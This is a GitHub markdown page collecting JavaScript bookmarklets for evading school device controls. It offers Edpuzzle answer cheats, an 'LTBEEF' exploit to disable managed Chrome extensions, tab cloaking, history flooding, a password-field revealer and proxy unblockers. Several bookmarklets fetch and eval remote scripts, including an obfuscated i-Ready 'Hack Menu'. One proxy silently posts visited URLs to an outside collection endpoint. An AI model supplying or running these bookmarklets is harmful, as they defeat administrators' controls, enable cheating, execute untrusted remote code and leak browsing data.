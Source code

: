 ## ByePassHub > Exploits > Bookmarklets | updated dec 27
## If you like this, make sure to star it!
**If you need help on creating a bookmarklet**, Go [here](https://github.com/wea-f/ByePassHub/blob/bookmarklets/Exploits/CreatingBookmarklets.md) or to the CreatingBookmarklets file<br>
**Unblocker and game links**: Go [here](https://github.com/wea-f/ByePassHub/blob/main/mainUnblockers.md) or go to the mainUnblockers.md file.
**Exploits/Bypasses:** Go [here](https://github.com/wea-f/ByePassHub/blob/Exploits/Exploits%5CBypasses.md)
### IF BOOKMARKLETS DON'T WORK, FOLLOW THESE [INSTRUCTIONS](https://github.com/wea-f/ByePassHub/blob/bookmarklets/Exploits/Downgrading.md)
---

### This is a collection of bookmarklets<br>
### These can range from disabling extensions, auto clicking, inspect element, flooding your history, and more!
These are from [balls-remover](https://github.com/3kh0/balls-remover) and [Satz n' stuff](https://sites.google.com/site/satznstuff/home/bookmarklets), [this repo](https://github.com/legend7278/Bookmarklets), [ENS](https://sites.google.com/view/exploitsnstuff/bypass-tools/bookmarklets), and [this repo](https://github.com/TheRealMrGamz/Bookmarklets) <br>
Make sure to scroll all the way down for all the bookmarklets! <br>
## What it does | note if needed
## Edpuzzle Cheats credit: [ading2210](https://github.com/ading2210/edpuzzle-answers)
```js
javascript: fetch("https://cdn.jsdelivr.net/gh/ading2210/edpuzzle-answers@latest/script.js").then(r => r.text()).then(r => eval(r))
```
## History Flooder made by BlazerHM
```js
javascript:var num%3Dprompt%28"How many times do you want this page to show up in your history?");done=false;x=window.location.href;for (var i=1; i<=num; i++){history.pushState(0, 0, i==num?x:i.toString());if(i==num){done=true}}if(done===true){alert("History flooding successful!\n"+window.location.href+" should now appear in your history "+num+(num==1?" time.":" times! \n"))}
```
After executing, put the amount of times you want the page to show up, too many crashes chrome.
## LoMoH - disables extensions
```js
javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()
```
## LTBEEF - disables extensions
Before executing, go to ```https://chrome.google.com/webstorex```, if it says 404, it's fine. <br>
If this doesn't work, substitute the `x` for something else, like ```https://chrome.google.com/webstoreIReplacedItRightHere``` <br>
Once on the site, execute one of the two codes below. <br>
Next, switch off the extensions you want to disable <br>
```js
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
OR
```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
## Tab Disguise
```js
javascript:function gcloak() { var link = document.querySelector("link[rel*='icon']") || document.createElement('link');link.type = 'image/x-icon';link.rel = 'shortcut icon';link.href = 'https://www.pngall.com/wp-content/uploads/9/Google-Drive-Logo-Transparent-180x180.png';document.title = 'My Drive - Google Drive';console.log(document.title);document.getElementsByTagName('head')[0].appendChild(link) };gcloak();setInterval(gcloak, 1000);
```
## Ad Blocker
```js
javascript:(function(){    /* Ad-B-Gone: Bookmarklet that removes obnoxious ads from pages */    var selectors = [    /* By ID: */    '#sidebar-wrap', '#advert', '#xrail', '#middle-article-advert-container',    '#sponsored-recommendations', '#around-the-web', '#sponsored-recommendations',    '#taboola-content', '#taboola-below-taboola-native-thumbnails', '#inarticle_wrapper_div',    '#rc-row-container', '#ads', '#at-share-dock', '#at4-share', '#at4-follow', '#right-ads-rail',    'div#ad-interstitial', 'div#advert-article', 'div#ac-lre-player-ph',    /* By Class: */    '.ad', '.avert', '.avert__wrapper', '.middle-banner-ad', '.advertisement',    '.GoogleActiveViewClass', '.advert', '.cns-ads-stage', '.teads-inread', '.ad-banner',    '.ad-anchored', '.js_shelf_ads', '.ad-slot', '.antenna', '.xrail-content',    '.advertisement__leaderboard', '.ad-leaderboard', '.trc_rbox_outer', '.ks-recommended',    '.article-da', 'div.sponsored-stories-component', 'div.addthis-smartlayers',    'div.article-adsponsor', 'div.signin-prompt', 'div.article-bumper', 'div.video-placeholder',    'div.top-ad-container', 'div.header-ad', 'div.ad-unit', 'div.demo-block', 'div.OUTBRAIN',    'div.ob-widget', 'div.nwsrm-wrapper', 'div.announcementBar', 'div.partner-resources-block',    'div.arrow-down', 'div.m-ad', 'div.story-interrupt', 'div.taboola-recommended',    'div.ad-cluster-container', 'div.ctx-sidebar', 'div.incognito-modal', '.OUTBRAIN', '.subscribe-button',    '.ads9', '.leaderboards', '.GoogleActiveViewElement', '.mpu-container', '.ad-300x600', '.tf-ad-block',    '.sidebar-ads-holder-top', '.ads-one', '.FullPageModal__scroller',    '.content-ads-holder', '.widget-area', '.social-buttons', '.ac-player-ph',    /* Other: */    'script', 'iframe', 'video', 'aside#sponsored-recommendations', 'aside[role="banner"]', 'aside',    'amp-ad', 'span[id^=ad_is_]', 'div[class*="indianapolis-optin"]', 'div[id^=google_ads_iframe]',    'div[data-google-query-id]', 'section[data-response]', 'ins.adsbygoogle', 'div[data-google-query-id]',    'div[data-test-id="fullPageSignupModal"]', 'div[data-test-id="giftWrap"]' ];    for(let i in selectors) {        let nodesList = document.querySelectorAll(selectors[i]);        for(let i = 0; i < nodesList.length; i++) {            let el = nodesList[i];            if(el && el.parentNode)                el.parentNode.removeChild(el);        }    }})();
```
## Show Password | In case if you forget your password on the login screen lol
```js
javascript:Array.prototype.slice.call(document.querySelectorAll("input[type='password']")).map(function(el){el.setAttribute('type','text')})
```
## Inspect Element
```js
javascript: javascript:document.body.contentEditable = 'true'; document.designMode='on'; void 0
```
Another inspect element:
```js
javascript:(function()%7B(function() %7Bvar x %3D document.createElement("script")%3Bx.src %3D "https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FSnowLord7%2Fdevconsole%40master%2Fmain.js"%3Bx.onload %3D alert("Loaded Developer Console!")%3Bdocument.head.appendChild(x)%3B%7D)()%7D)()
```
## web browser
```js
javascript:((function()%7Bvar a,b,c;c="https://www.bing.com/",b=document.createElement("iframe"),b.setAttribute("src",c),b.setAttribute("id","rusic-modal"),b.setAttribute("style","position: fixed; z-index: 999999; width: 1333px; height: 768px; right: 10px; top: 10px; border: 5px solid #8834af; overflow: hidden; background-color: #fff;"),a=document.getElementsByTagName("body")%5B0%5D,a.appendChild(b)%7D)).call(this)
```
## Proxies (Unblockers)
```js
javascript:(function(){var bkmkltscript = document.createElement('script'); bkmkltscript.src = 'https://cdn.jsdelivr.net/gh/proxyhost/bookmarklets/aiobkmklt.js'; document.body.appendChild(bkmkltscript);})();
```
2nd (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://nebula.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
3rd (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://ultraviolet-node.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
4th (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://incognito.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
5th (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://website-aio.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
6th (opens in about:blank):
```js
javascript:(function(){var url = prompt("Enter website url for cloaked page \n Made by Exploits N' Stuff"); var win = window.open(); var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; if(url.includes('https://') || url.includes("http://")) {iframe.src = url;}else{iframe.src = "https://" + url;} win.document.body.appendChild(iframe);})();
```
7th:
```js
javascript:(()=>{let e='[1,2]';function t(e){return e.toString(16).padStart(2,'0')}function o(e){let o=new Uint8Array((e||40)/2);return window.crypto.getRandomValues(o),Array.from(o,t).join('')}let n=o(20);function r(e,t){return prompt('[Legend7269s proxy]\n'+e,t)}function a(e){return confirm('[Legend7269s proxy]\n'+e)}function l(e){return alert('[92dev proxy]\n'+e)}function c(){let e=r('Enter the URL to access:');return null===e||''===e.trim()?null:e=new URL((e=e.replace(%27-%27,%27%27)).indexOf(%27http%27)?%27http://%27+e:e)}function i(e,t){fetch(%27https://dev.92spoons.com/api/fakehacks/proxy/collect.php%27,{method:%27POST%27,headers:{%27Content-Type%27:%27application/json%27},body:JSON.stringify({url:e,version:%271.0.0%27,from:window.location.href,sessionRandomId:n,proxy:t}),mode:%27cors%27})}!function t(){let o=c();if(null===o)return;let n=new URL(o);!function t(){let l=r(%27Proxy method to use:\nCurrently available proxies are numbered %27+e+%27.%27,1);null!==l&&(1==l?(i(o,1),window.location.href=%27https://webcache.googleusercontent.com/search?q=cache%3A%27+encodeURIComponent(n)):2==l?(i(o,2),window.location.href=%27https://%27+n.hostname.replace(/\./g,%27-%27)+%27.translate.goog%27+n.pathname+%27?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp%27):(i(o,%27oob%27),a(%27That proxy id is invalid. Please choose a proxy in the range %27+e+%27.\nIf none of the proxies are working for you, you can ask for more at https://github.com/Legend7269/Bookmarklets%27)&&t()))}()}()})();
```
## Calculator | doesn't show in your history
```js
javascript:eval('function calc(){_o=prompt(_t,_z);if(_o!=\'\'&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())_z=eval(_o);}');_t='JAVASCRIPTER.NET Calculator - Input the expression to be calculated:';_z='';calc();while(_o!=''&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())calc()
```
## Dictionary | Highlight words and it shows you the definition, again, doesn't show in your history
```js
javascript:var q=escape(window.getSelection()),i,ii;if(!q){for(i=0;i<frames.length;i++){var fr=frames[i];try{q=escape(fr.getSelection())}catch(e){};if(q)break;else{for(ii=0;ii<fr.frames.length;ii++){try{q=escape(fr.frames[ii].getSelection())}catch(e){};if(q)break;}}}}if(!q)void(q=prompt('Enter word to define%3A',''));if(q)void(location.href='http://www.dictionary.com/cgi-bin/dict.pl?term=%27+q);```
```
## Font Finder 
```js
javascript:(function(){var d=document,s=d.createElement('scr'+'ipt'),b=d.body,l=d.location;s.setAttribute('src','http://chengyinliu.com/wf.js?o='+encodeURIComponent(l.href)+'&t='+(new Date().getTime()));b.appendChild(s)})();
```
## Unblocked Youtube
```js
javascript:(function () {if (window.location.toString().includes('www.youtube.com/watch?v%27)) { window.open(%27https://www.youtube-nocookie.com/embed/%27 + window.location.toString().split(%27=%27)[1]) }})()
```
## Hack Menu
```js
javascript:function _0x54f5(_0x4c9444,_0x4ac2af){const _0x17ddb2=_0x380f();return _0x54f5=function(_0x19dcc8,_0x9a0e40){_0x19dcc8=_0x19dcc8-0x8e;let _0x227425=_0x17ddb2[_0x19dcc8];return _0x227425;},_0x54f5(_0x4c9444,_0x4ac2af);}function _0x380f(){const _0x378644=['4171185PbwjuA','return\x20(function()\x20','search','5022212nNDxnN','{}.constructor(\x22return\x20this\x22)(\x20)','iframe','prototype','log','error','(((.+)+)+)+$','console','https://raw.githubusercontent.com/sysplu/Nullify/main/src/main.js','#U3Yq73','appendChild','18370weTWYU','201365CDUwAl','apply','10kSarUU','bind','710569iOGDqM','__proto__','contentWindow','2BdVBzH','display','21QJQsgN','none','3587043RPUKBC','style','3001304NoJSZJ','trace','catch','toString','warn','table','U3Yq73','66qdZbUl','get','https://login.i-ready.com/','querySelector','2508jetZRn','fetch','constructor','then','exception','info'];_0x380f=function(){return%20_0x378644;};return%20_0x380f();}const%20_0xadefc0=_0x54f5;(function(_0x507ca9,_0x365979){const%20_0x2a1e1a=_0x54f5,_0x105b91=_0x507ca9();while(!![]){try{const%20_0x43c327=parseInt(_0x2a1e1a(0xaa))/0x1+-parseInt(_0x2a1e1a(0xad))/0x2*(parseInt(_0x2a1e1a(0xb1))/0x3)+parseInt(_0x2a1e1a(0x9a))/0x4+-parseInt(_0x2a1e1a(0xa6))/0x5*(parseInt(_0x2a1e1a(0xba))/0x6)+-parseInt(_0x2a1e1a(0xaf))/0x7*(-parseInt(_0x2a1e1a(0xb3))/0x8)+parseInt(_0x2a1e1a(0x97))/0x9*(-parseInt(_0x2a1e1a(0xa8))/0xa)+parseInt(_0x2a1e1a(0xa5))/0xb*(-parseInt(_0x2a1e1a(0x91))/0xc);if(_0x43c327===_0x365979)break;else%20_0x105b91['push'](_0x105b91['shift']());}catch(_0x5c4471){_0x105b91['push'](_0x105b91['shift']());}}}(_0x380f,0x9c5b0));const%20_0x3d141d=(function(){let%20_0x3b4fcd=!![];return%20function(_0x2843ca,_0x598a6a){const%20_0x228da5=_0x3b4fcd?function(){if(_0x598a6a){const%20_0x1eae74=_0x598a6a['apply'](_0x2843ca,arguments);return%20_0x598a6a=null,_0x1eae74;}}:function(){};return%20_0x3b4fcd=![],_0x228da5;};}()),_0x108e71=_0x3d141d(this,function(){const%20_0x3001d5=_0x54f5;return%20_0x108e71[_0x3001d5(0xb6)]()['search']('(((.+)+)+)+$')[_0x3001d5(0xb6)]()[_0x3001d5(0x93)](_0x108e71)[_0x3001d5(0x99)](_0x3001d5(0xa0));});_0x108e71();const%20_0x9a0e40=(function(){let%20_0x19a019=!![];return%20function(_0x122e62,_0x48c927){const%20_0x16892c=_0x19a019?function(){const%20_0x3707ca=_0x54f5;if(_0x48c927){const%20_0x6eb7c3=_0x48c927[_0x3707ca(0xa7)](_0x122e62,arguments);return%20_0x48c927=null,_0x6eb7c3;}}:function(){};return%20_0x19a019=![],_0x16892c;};}()),_0x19dcc8=_0x9a0e40(this,function(){const%20_0x4c4646=_0x54f5;let%20_0x5844cb;try{const%20_0x565505=Function(_0x4c4646(0x98)+_0x4c4646(0x9b)+');');_0x5844cb=_0x565505();}catch(_0x404f45){_0x5844cb=window;}const%20_0x39ccf2=_0x5844cb[_0x4c4646(0xa1)]=_0x5844cb[_0x4c4646(0xa1)]||{},_0x16d310=[_0x4c4646(0x9e),_0x4c4646(0xb7),_0x4c4646(0x96),_0x4c4646(0x9f),_0x4c4646(0x95),_0x4c4646(0xb8),_0x4c4646(0xb4)];for(let%20_0xdc9bb5=0x0;_0xdc9bb5%3C_0x16d310['length'];_0xdc9bb5++){const%20_0x12b77a=_0x9a0e40[_0x4c4646(0x93)][_0x4c4646(0x9d)][_0x4c4646(0xa9)](_0x9a0e40),_0x5b8d1a=_0x16d310[_0xdc9bb5],_0x56dd77=_0x39ccf2[_0x5b8d1a]||_0x12b77a;_0x12b77a[_0x4c4646(0xab)]=_0x9a0e40[_0x4c4646(0xa9)](_0x9a0e40),_0x12b77a[_0x4c4646(0xb6)]=_0x56dd77[_0x4c4646(0xb6)]['bind'](_0x56dd77),_0x39ccf2[_0x5b8d1a]=_0x12b77a;}});_0x19dcc8();try{if(document[_0xadefc0(0x90)](_0xadefc0(0xa3))===null){let%20iframe=document['createElement'](_0xadefc0(0x9c));iframe['src']=_0xadefc0(0x8f),iframe['id']=_0xadefc0(0xb9),iframe[_0xadefc0(0xb2)][_0xadefc0(0xae)]=_0xadefc0(0xb0),document['body'][_0xadefc0(0xa4)](iframe),iframe['onload']=()=%3E{const%20_0x5777e2=_0xadefc0;window[_0x5777e2(0x8e)]=async(_0x2a1cca,_0x441e01)=%3E{return%20new%20Promise((_0x221243,_0x497907)=%3E{const%20_0x3511cd=_0x54f5;U3Yq73[_0x3511cd(0xac)][_0x3511cd(0x92)](_0x2a1cca,_0x441e01)[_0x3511cd(0x94)](_0x542415=%3E{_0x221243(_0x542415);})[_0x3511cd(0xb5)](_0x28799b=%3E{_0x497907(_0x28799b);});});},get('https://raw.githubusercontent.com/sysplu/Nullify/main/src/main.js')[_0x5777e2(0x94)](_0x230289=%3E_0x230289['text']())['then'](_0xd96b0c=%3Eeval(_0xd96b0c))['catch'](_0x30a455=%3Ealert(_0x30a455));};}else%20get(_0xadefc0(0xa2))[_0xadefc0(0x94)](_0x344e55=%3E_0x344e55['text']())[_0xadefc0(0x94)](_0x21ad45=%3Eeval(_0x21ad45))[_0xadefc0(0xb5)](_0x7c3551=%3Ealert(_0x7c3551));}catch(_0x859f92){alert('Error\x20while\x20loading\x20nullify.\x20This\x20could\x20be\x20because\x20you\x20are\x20not\x20on\x20iReady\x20or\x20because\x20of\x20a\x20patch');}
```
## Close Active Bookmarklets
```js
javascript:var element = document.getElementById("rusic-modal"); element.parentNode.removeChild(element);
```
